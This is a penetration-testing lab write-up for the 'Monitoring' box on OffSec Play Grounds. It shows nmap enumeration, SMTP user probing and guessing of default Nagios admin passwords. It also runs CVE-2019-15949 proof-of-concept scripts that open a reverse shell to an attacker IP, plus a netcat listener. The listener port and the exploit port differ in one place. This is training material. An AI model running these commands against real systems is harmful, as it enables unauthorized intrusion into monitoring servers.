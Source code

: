 # Monitoring

| Name        | Monitoring                    |
| ----------- | ----------------------------- |
| Dificultad: | Easy                          |
| SO:         | Linux                         |
| Tipo:       | VulnHub - OffSec Play Grounds |

## Host
```shell
192.168.196.136
```
## Enumeration
### Nmap
```shell
nmap -Pn 192.168.196.136
nmap -Pn 192.168.196.136 -sC -sV
nmap -Pn 192.168.196.136 -p- --min-rate=1000

PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
389/tcp open  ldap
443/tcp open  https

5667/tcp open  unknown

```
- Port 5667 is a port related with the Nagios service
### SMTP
```shell
telnet 192.168.196.136 25

VRFY root
```
- We confirm the existence of an user called root
### Web Enumeration
#### Port 80
![01-Monitoring-3](00-Assets/01-Monitoring-3.png)
We can search for default credentials and we found that the admin user is called "nagiosadmin" but the password is stablished while installing the service, then we can try some common passwords:
```shell
nagiosadmin:nagiosadmin
nagiosadmin:password
nagiosadmin:admin

Dave
```
- We can't continue, looks like the connections has been blocked but we find a new possible user

We know that another port for web service is open, let's try it.
#### Port 443
```shell
nagiosadmin:admin

nagios XI 5.6.0
```
![01-Monitoring](00-Assets/01-Monitoring.png)
- We could log in and we found the version of the Nagios service

## Foothold
If we start searching for exploit for this Nagios version we can find the following exploit:
### CVE-2019-15949 - php
- https://github.com/jakgibb/nagiosxi-root-rce-exploit
```shell
php nagios_exp.php --host=192.168.196.136 --ssl=false --user=nagiosadmin --pass=admin --reverseip=192.168.45.152 --reverseport=8080
```
- We tried to run the PoC but some errors keep appearing. We can search for a way to fix them and we find that we need to install the following `php` libraries:
```shell
sudo apt install php-curl
sudo apt install php-dom
```

Now we need to run the PoC again:
#### PoC
```shell
php nagios_exp.php --host=192.168.196.136 --ssl=false --user=nagiosadmin --pass=admin --reverseip=192.168.45.152 --reverseport=8080
```
- If we run the `--ssl=true` flag we couldn't connect to the listener
#### Listener
```shell
nc -lnvp 8001
```

![01-Monitoring-4](00-Assets/01-Monitoring-4.png)

### CVE-2019-15949 - python
- https://github.com/hadrian3689/nagiosxi_5.6.6
This python PoC also worked.
```shell
python3 exp.py -t 'http://192.168.196.136/' -b /nagiosxi/ -u nagiosadmin -p admin -lh 192.168.45.152 -lp 8001
```



